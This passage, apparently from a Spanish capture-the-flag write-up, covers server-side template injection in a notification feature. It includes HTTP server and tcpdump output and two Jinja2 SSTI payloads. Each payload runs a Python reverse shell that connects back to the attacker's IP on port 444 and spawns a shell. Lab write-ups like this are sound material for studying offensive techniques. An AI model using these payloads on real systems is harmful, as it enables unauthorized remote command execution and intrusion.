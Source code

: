 Al probarlo vemos lo siguiente
![Write-up Image](images/Screenshot_36.png)

Se hace una petición a nuestro sitio web pero no nos llega el ping.
```console
$ python3 -m http.server 8082
Serving HTTP on 0.0.0.0 port 8082 (http://0.0.0.0:8082/) ...
10.129.44.138 - - [23/Sep/2024 22:51:15] code 404, message File not found
10.129.44.138 - - [23/Sep/2024 22:51:15] "GET /index.html HTTP/1.1" 404 -
10.129.44.138 - - [23/Sep/2024 22:53:08] code 404, message File not found
10.129.44.138 - - [23/Sep/2024 22:53:08] "GET /index.html HTTP/1.1" 404 -
```

```console
$ sudo tcpdump icmp -i tun0
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```

Cambié el payload del SSTI pero seguía sin llegarme ninguna shell.
```python3
{{% for x in ().__class__.__base__.__subclasses__() %}}
        {{% if "warning" in x.__name__ %}}
        {{{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import os,pty,socket;s=socket.socket();s.connect((\\"{10.10.16.24}\\",{444}));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\\"/bin/bash\\")'").read()}}}}
        {{% endif %}}
        {{% endfor %}}
```

Esto quiero pensar que es porque no existe ninguna notificación configurada.

Entonces sabiendo que esto es vulnerable a SSTI podemos probar a configurar una notificación global.

Entonces como URL a notificar vamos a poner que se tramite una petición GET a mi endpoint.
`get://10.10.16.24:8082/notification`

Y como payload vamos a usar uno genérico para mandarnos una revshell.
```python3
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.16.24\",444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\", \"-i\"]);'")}}{%endif%}{% endfor %}
```